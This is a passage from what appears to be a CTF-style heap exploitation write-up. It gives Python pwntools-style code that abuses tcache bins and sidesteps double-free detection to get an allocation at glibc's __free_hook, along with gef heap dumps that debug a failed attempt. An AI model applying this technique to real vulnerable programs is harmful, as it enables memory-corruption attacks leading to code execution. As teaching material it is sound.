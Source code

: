 ```python
# Make the chunk #2 of size = 0x20 (size gets zeroed when allocating chunk #4)
edit(4, p64(0) + p64(0x21) + p64(0))
delete(2)
edit(2, p64(0) + p64(1) + p64(0)) # Prevent double free detection

# Make the chunk #2 of size > maxfast (e. g. 0xa0)
edit(4, p64(0) + p64(0x80) + p64(0))

# Fill the tcache bin by freeing seven times the same chunk
for _ in range(7):
    delete(2)
    edit(2, p64(0) + p64(1) + p64(0)) # Prevent double free detection

# Free one more time and send it to the unsorted bin
delete(2)

# Make fwd pointer in our chunk (which points to libc) point to __free_hook
edit(2, p64(0x2268) + p64(0) * 2)

create()
create() # idx = 11, should return a pointer to __free_hook
```
But it doesn't work. Studying the state of the heap right before the last two `create()` in the code above the problem becomes evident.
```
gef➤  heap bins tcache
──────────────────────────── Tcachebins for thread 1 ───────────────────────────
Tcachebins[idx=0, size=0x20] count=1  ←  Chunk(addr=0x55d41e90d2e0, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x7f2965f59e48, size=0x0, flags=) 
Tcachebins[idx=8, size=0xa0] count=7  ←  Chunk(addr=0x55d41e90d2e0, size=0xa0, flags=PREV_INUSE)  ←  Chunk(addr=0x7f2965f59e48, size=0x0, flags=) 
gef➤  heap bins unsorted
─────────────────── Unsorted Bin for arena '*0x7f2965f57b80' ───────────────────
[+] unsorted_bins[0]: fw=0x55d41e90d2d0, bk=0x55d41e90d2d0
 →   Chunk(addr=0x55d41e90d2e0, size=0xa0, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
gef➤  x/gx 0x7f2965f59e48
0x7f2965f59e48 <__free_hook>:   0x0000000000000000
```
Even though we have our chunk in the tcache's 0x20 bin pointing to `__free_hook`, the counter of the tcache's 0x20 bin is only 1. After allocating our chunk (removing it from the tcache) that counter will be decremented to zero and the next allocation will ignore the tcache (and try to allocate the chunk from the unsorted bin, dying miserably in a segmentation fault<span id="1_"><a href="#1"><sup>1</sup></a>, *heaps* of entrails surrounding its cold and stiff corpse; the kernel, only moments away from finding it, will heave a sigh at the sight and start cleaning the muddle with the skill of someone who has had to do it already too many times, a single tear dangling from the chin).

Fair enough. Placing our chunk twice in the tcache in order to increment the counter to two would fix this.
```python
# Create a chunk with PREV_INUSE set for our chunk that we'll make of size 0xa0
# Add one chunk extra to prevent it from coalescing with the top chunk
for _ in range(5):
    create()

### Keep a pointer to our chunk in the tcache's 0x20 bin
# Make the chunk #2 of size = 0x20 (size gets zeroed when allocating chunk #4)
edit(4, p64(0) + p64(0x21) + p64(0))
delete(2)
edit(2, p64(0) + p64(1) + p64(0)) # Prevent double free detection
delete(2) # counter = 2
edit(2, p64(0) + p64(1) + p64(0))

# Make the chunk #2 of size > maxfast (e. g. 0xa0)
```